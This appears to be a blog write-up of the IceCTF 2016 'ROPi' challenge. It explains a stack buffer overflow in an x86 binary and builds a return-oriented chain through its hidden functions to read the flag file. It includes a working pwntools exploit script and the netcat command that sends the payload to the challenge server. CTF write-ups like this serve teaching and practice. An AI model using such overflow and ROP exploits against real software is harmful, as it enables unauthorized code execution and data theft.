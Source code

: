 Title: IceCTF 2016 - ROPi
Date: 2016-08-21 18:11
Category: CTF
Tags: icectf2016, ctf, pwn
Slug: icectf-2016-ropi
Authors: wumb0

Challenge description:
> Ritorno orientata programmazione nc ropi.vuln.icec.tf 6500

The binary provided with the challenge was an x86 ELF. I started by reversing it with radare2:
<script type="text/javascript" src="https://asciinema.org/a/0e10sx4jp4ixg0hrrgoxjk3d1.js" id="asciicast-0e10sx4jp4ixg0hrrgoxjk3d1" async></script>
Feel free to stop the video above to look at the functions!
The main function just calls ezy, which `read`s 0x40 bytes on top of a buffer that is 0x28 bytes in size. This means that we are running 0x18 bytes over the buffer. The first 4 bytes after those 0x28 overwrite the saved EBP and then the next 4 overwrite EIP. To test this theory we load up the binary in gdb and put in 0x28 bytes, plus BBBB to overwrite EBP, then iiii to overwrite EIP:

<script type="text/javascript" src="https://asciinema.org/a/cibcbemfhn7m5x5bqu131bijk.js" id="asciicast-cibcbemfhn7m5x5bqu131bijk" async></script>

[[more]]

Ok so we have program control. Nice! Now what? Since the program is called **ROP**i I started looking for things to jump to. I actually spent a lot of time trying to find gadgets to write an actual ROP chain. I was stumped for a bit and asked Chris Eagle for some advice because he had solved the challenge for Samurai earlier in the week. He pointed out that there are uncalled functions. If you look in the r2 video above, you can see there are three functions right after ezy in the function list (afl): `ret`, `ori`, and `pro`. After disassembling and reversing them it was clear what the intended solution was:
<script type="text/javascript" src="https://asciinema.org/a/az9litz1gxi1s7nmiq8qifqik.js" id="asciicast-az9litz1gxi1s7nmiq8qifqik" async></script>
The `ret` (0x8048569) function calls open("./flag.txt", 0), the `ori` (0x80485c4) function calls read(dati, 0x80, fd) where fd is the file descriptor opened by open previously and dati is the buffer to read to, and `pro` (0x804862c) calls printf("%s", dati). So the proper solution is to use return oriented programming to call all of these functions in order. There is one trick, however. If you look closely at `ret` and `ori` you will see that there is a condition that needs to be met in order for the functions to not hard exit. For `ret`, ebp-8 must be 0xbadbeeef and for `ori`, either ebp-8 must equal 0xabcdefff or ebp-0xc must equal 0x78563412. To start I just tried calling `ret` then `ori` so I needed to set up my buffer as follows:

[0x2c bytes padding][address of ret][address of ori][0xbadbeeef][0xabcdefff]

My attempt in gdb:
<script type="text/javascript" src="https://asciinema.org/a/2gc2jpuhs4wkzcht7l2hxg1xw.js" id="asciicast-2gc2jpuhs4wkzcht7l2hxg1xw" async></script>
It looks like `ret` and `ori` were successfully called! Since this will call `ret`, then `ori`, there is no place to put the address of `pro` to call because of the condition that needs to be meet in `ret` (0xbadbeeef). To solve this, I can actually re-use the `ezy` function to read in the buffer again. With this in mind I tried setting up my buffer as follows:

[0x2c bytes padding][address of ret][address of ezy][0xbadbeef][newline][cyclic(100)]

The reason for the cyclic pattern is to figure out at what offset I needed to overflow in ezy the second time in order to regain EIP control. This is shown below:
<script type="text/javascript" src="https://asciinema.org/a/bbe9bvl7z6cirpsk60trf28vy.js" id="asciicast-bbe9bvl7z6cirpsk60trf28vy" async></script>

Looks like I need to write 51 bytes after calling ezy again and then I can overwrite the return. So the final buffer should look as follows:

[0x2c bytes padding][address of ret][address of ezy][0xbadbeeef][newline][51 bytes of padding][address of ori][address of ezy][0xabcdefff][newline][51 bytes of padding][address of pro]

I wrote a quick pwntools script to do just this:
```python
from pwn import *
context.log_level = 'error'
e = ELF("./ropi")

print(cyclic(0x2c) + p32(e.symbols['ret']) + p32(e.symbols['ezy']) + p32(0xbadbeeef))
print(cyclic(51) + p32(e.symbols['ori']) + p32(e.symbols['ezy']) + p32(0xabcdefff))
print(cyclic(51) + p32(e.symbols['pro']))
```

```bash
python ropi.py | nc ropi.vuln.icec.tf 6500
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?
[+] aperto
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?
[+] leggi
Benvenuti al convegno RetOri Pro!
Vuole lasciare un messaggio?
[+] stampare
IceCTF{italiano_ha_portato_a_voi_da_google_tradurre}
```
Flag obtained: **IceCTF{italiano_ha_portato_a_voi_da_google_tradurre}**
